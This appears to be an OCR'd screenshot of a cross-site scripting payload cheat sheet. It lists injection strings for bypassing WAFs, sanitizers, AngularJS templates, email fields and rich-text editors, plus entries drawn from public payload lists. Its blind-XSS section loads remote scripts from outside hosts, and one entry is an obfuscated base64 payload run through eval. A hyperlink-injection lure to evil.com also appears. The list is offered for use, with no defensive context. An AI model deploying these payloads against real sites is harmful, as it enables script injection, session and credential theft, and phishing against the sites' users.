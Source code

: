 ````html
<SCr%00Ipt>confirm(1)</scR%00ipt>

# AngularJS
{{constructor.constructor(alert 1 )()}}

#html Sanitization Bypass
<00 foo="<a%20href="javascript:alert('XSS-Bypass')">XSS-CLick</00>--%20/

# Bypass ‘ ‘ ( ) 
<iframe/src=javascript:alert%26%23x000000028%3b%27hacked%27)>

# waf Bypass SVG
<svg><a xlink:href=?usemap=/*&#x26;#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;*/onmouseover=window.focus()//>Hover me</a></svg>
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>

# XSS in email Section
admin1@example.com<script>alert('xss');</script> 
“><svg/onload=confirm(1)>”@x.y 
"hello<form/><!><details/open/ontoggle=alert(1)>"@gmail.com 
["');alert('XSS');//"]@xyz.xxx 
"<svg/onload=alert(1)>"@gmail.com 
test@gmail.com%27\\%22%3E%3Csvg/onload=alert(/xss/)%3E

# XSS Bypass for Rich Text Editors
<</p>iframe src=javascript:alert()//
<a href="aaa:bbb">x</a>
<a href="j%26Tab%3bavascript%26colon%3ba%26Tab%3blert()">x</a>
[Click on me to claim 100$ vouchers](<https://evil.com>) -> Hyperlink Injection

# XSS Reflected in JSON Format and “{}” Forbidden
test%2Aconsole.log(1337)//’;

# XSS Reflected in `<link>` OR `<input type=hidden>` attribute when add param
/?lol=h0tak88r’accesskey=’x’onclick=’alert(0)’ # But the Victim must click ALT+SHIFT+X

# [Jhaddix](https://github.com/R0X4R/D4rkXSS/blob/master/jhaddix.txt)
'%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E
<<scr\\0ipt/src=http://xss.com/xss.js></script%27%22--%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3Cscript%3ERWAR%280x00010E%29%3C%2Fscript%3E
' onmouseover=alert(/Black.Spook/)

# [RSnake](https://github.com/R0X4R/D4rkXSS/blob/master/rsnake.txt)
<SCRIPT>alert('XSS');</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>   

# [Mario](https://github.com/R0X4R/D4rkXSS/blob/master/mario.txt)
<div id="1"><form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>//["'`-->]]>]</div><div id="2"><meta charset="x-imap4-modified-utf7">&ADz&AGn&AG0&AEf&ACA&AHM&AHI&AGO&AD0&AGn&ACA&AG8Abg&AGUAcgByAG8AcgA9AGEAbABlAHIAdAAoADEAKQ&ACAAPABi//["'`-->]]>]</div><div id="3"><meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>//["'`-->]]>]</div><div id="4">0?<script>

# Blind Xss
'"><script src=//xss.report/s/M8SZT8></script>
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
# Using Burp Collaborator
<https://medium.com/@jr.mayank1999/exploiting-blind-xss-with-burp-collaborator-client-fec38b5fc5e>
````
